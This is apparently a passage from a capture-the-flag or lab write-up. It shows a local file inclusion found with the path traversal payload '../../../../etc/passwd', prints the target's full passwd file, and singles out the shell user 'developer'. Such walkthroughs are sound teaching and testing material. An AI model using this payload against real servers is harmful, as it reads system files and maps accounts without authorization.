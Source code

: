 ```
../../../../etc/passwd
```

Let's test:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250225133202.png)

And I was right, LFI is indeed possible in this endpoint, we can see the following in `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

We found an user with a shell:

```
developer
```
